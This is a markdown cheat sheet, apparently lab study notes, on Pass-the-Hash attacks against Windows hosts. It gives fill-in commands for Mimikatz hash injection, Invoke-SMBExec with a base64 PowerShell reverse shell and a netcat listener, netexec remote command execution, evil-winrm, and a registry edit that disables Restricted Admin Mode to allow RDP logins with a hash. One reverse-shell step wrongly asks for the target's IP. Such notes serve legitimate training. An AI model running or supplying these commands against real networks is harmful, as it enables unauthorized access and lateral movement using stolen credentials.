

## Pass the Hash (PtH) Attacks from Windows 

###  Pass the Hash (PtH) using `Mimikatz` [mimikatz](https://github.com/gentilkiwi)

- executes a **Pass-the-Hash (PtH)** attack using Mimikatz. It bypasses standard authentication by injecting a stolen password hash directly into memory to spawn a new Command Prompt (`cmd.exe`) acting as the target user

```cmd
mimikatz.exe privilege::debug "sekurlsa::pth /user:<USERNAME> /rc4:<HASH> /domain:<AD_DOMAIN_NAME> /run:cmd.exe" exit
```

### Pass the Hash (PtH) using `PowerShell` [Invoke-TheHash](https://github.com/Kevin-Robertson/Invoke-TheHash)

#### Invoke-TheHash with SMB

- The `COMMAND_TO_EXECUTE` is not mandatory but you can try to execute a reverse shell. If no command is mentioned then the function will check if the username and hash have access to WWI on the target.

#### USAGE

- `Target` - Hostname or IP address of the target.
- `Username` - Username to use for authentication.
- `Domain` - Domain to use for authentication. This parameter is unnecessary with local accounts or when using the @domain after the username.
- `Hash` - NTLM password hash for authentication. This function will accept either LM:NTLM or NTLM format.
- `Command` - Command to execute on the target. If a command is not specified, the function will check to see if the username and hash have access to WMI on the target.

```powershell
cd <to_Invoke-TheHash_directory where you cloned it>
Import-Module .\Invoke-TheHash.psd1
Invoke-SMBExec -Target <TARGET_IP> -Domain <DOMAIN_NAME> -Username <USERNAME> -Hash <HASH> -Command "<COMMAND_TO_EXECUTE>/<not_mandatory>" -Verbose
```


#### Trying to Establish Reverse Shell using `Invoke-TheHash`

1. Start the netcat listener.

```cmd
nc -lvnp <PORT>
```

2.  We need to use the [revershell.com](https://www.revshells.com/) Open the website. 
	- Give IP of the target and give the same PORT where you are listening. 
	- Choose PowerShell #3 (Base64). This encodes the entire reverse shell command in base64.

3. Start the `Invoke-TheHash`

```powershell
cd <to_Invoke-TheHash_directory where you cloned it>
Import-Module .\Invoke-TheHash.psd1
Invoke-SMBExec -Target <TARGET_IP> -Domain <DOMAIN_NAME> -Username <USERNAME> -Hash <HASH> -Command "<REVERSE_SHELL_BASE64_STRING>" -Verbose
```

---

## Pass the Hash (PtH) Attacks from Linux


### Pass the Hash (PtH) using `netexec`

- Finding the password of the username.

```bash
netexec smb <TARGET_IP> -u <USERNAME> -d . -H <HASH>
```

#### Execute Command + Get Password

```bash
netexec smb <TARGET_IP> -u <USERNAME> -d . -H <HASH> -x <COMMAND_TO_EXECUTE>
```


### Pass the Hash (PtH) with `evil-winrm`

**Note: When using a domain account, we need to include the domain name, for example: administrator@inlanefreight.htb**. To get domain name checkout the `netexec` command in the **Extracting Passwords from Windows -> Attacking NTDS.dit**

```bash
evil-winrm -i <TARGET_IP> -u <USERNAME> -H <HASH>
```


### Pass the Hash (PtH) with `RDP`

- Normally Pass the Hash using `rdp` won't work because of the following reason :-
	- `Restricted Admin Mode`: This mode requires us to enter the password and username but since we only possess the hash of the password we need to set this value to `0` so that we can enter the username and hash value instead of the password.



- To prevent the above error we need to enable the `Restricted Admin Mode` or set it to `0` using the below command.

##### Enable Restricted Admin Mode to allow PtH

```cmd
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

- Now finally RDP is possible.

```bash
xfreerdp  /v:<TARGET_IP> /u:<USERNAME> /pth:<HASH>
```


